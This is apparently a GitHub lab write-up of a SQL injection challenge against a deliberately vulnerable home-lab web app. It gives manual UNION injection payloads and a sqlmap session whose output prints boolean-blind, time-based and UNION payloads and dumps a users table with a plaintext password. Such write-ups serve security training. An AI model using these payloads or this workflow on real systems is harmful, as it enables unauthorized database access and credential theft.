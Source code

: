 # Challange (SQL-Injection)

By sending injection payload with the item name we get positive results.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/23adab84-1130-4437-ab58-bb83f4eea711)

On sending simple requests through Repeater we got the content length of 2516 with details of the product.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a4e03904-fe47-4f30-8d21-9b436dd97760)

On trying the Union query with payload: `' union select 1,2,3,4#` in the encoded form we get positive feedback.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a5ad3c57-3ec6-4a05-bb65-b2bb8f1f428c)

On trying to extract the version info get the version in return.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/0667ba7b-9e1e-482c-ad91-89a9752fd6ce)

Dump table names using the cmd:`'+union+select+1,2,3,table_name+from+information_schema.tables%23`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/02c07a54-e718-477f-9069-d398b2bd4989)

Give a try with a tool called sqlmap, by coping request data to a file.

```bash
└─$ sqlmap -r challange -dump -T injection0x03_users
        ___
       __H__                                                                                                                                                                                                      
 ___ ___[(]_____ ___ ___  {1.7.6#stable}                                                                                                                                                                          
|_ -| . [(]     | .'| . |                                                                                                                                                                                         
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:31 /2023-07-15/

[11:08:31] [INFO] parsing HTTP request from 'challange'
[11:08:31] [INFO] resuming back-end DBMS 'mysql' 
[11:08:31] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: product=Senpai Knife Set' AND 9407=9407 AND 'fnVn'='fnVn

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: product=Senpai Knife Set' AND (SELECT 4059 FROM (SELECT(SLEEP(5)))pVIN) AND 'RYrH'='RYrH

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: product=Senpai Knife Set' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6271,0x516b7148714f51565a6d724e736241747349735a4945614d6f6f76514f6769477065726c50526c58,0x71766b7871),NULL-- -
---
[11:08:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[11:08:31] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:31] [INFO] fetching current database
[11:08:31] [INFO] fetching columns for table 'injection0x03_users' in database 'peh-labs'
[11:08:31] [INFO] fetching entries for table 'injection0x03_users' in database 'peh-labs'
Database: peh-labs
Table: injection0x03_users
[1 entry]
+----------+------------------+
| username | password         |
+----------+------------------+
| takeshi  | onigirigadaisuki |
+----------+------------------+

[11:08:31] [INFO] table '`peh-labs`.injection0x03_users' dumped to CSV file '/home/singhx/.local/share/sqlmap/output/localhost/dump/peh-labs/injection0x03_users.csv'
[11:08:31] [INFO] fetched data logged to text files under '/home/singhx/.local/share/sqlmap/output/localhost'

[*] ending @ 11:08:31 /2023-07-15/


```

W00t Cracked...

